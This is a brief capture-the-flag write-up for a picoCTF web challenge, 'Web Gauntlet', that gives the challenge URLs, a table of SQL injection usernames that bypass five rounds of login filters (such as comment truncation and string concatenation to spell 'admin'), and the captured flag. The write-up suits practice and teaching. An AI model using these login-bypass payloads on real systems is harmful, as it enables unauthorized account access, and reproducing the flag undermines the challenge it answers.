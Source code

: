 ## 問題文

AUTHOR: MADSTACKS

Description
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php

## 解答

| input    | 1/5         | 2/5       | 3/5       | 4/5             | 5/5             |
| -------- | ----------- | --------- | --------- | --------------- | --------------- |
| username | `admin' --` | `admin';` | `admin';` | `adm'\|\|'in';` | `adm'\|\|'in';` |
| password | `test`      | `test`    | `test`    | `test`          | `test`          |

## flag

`picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}`
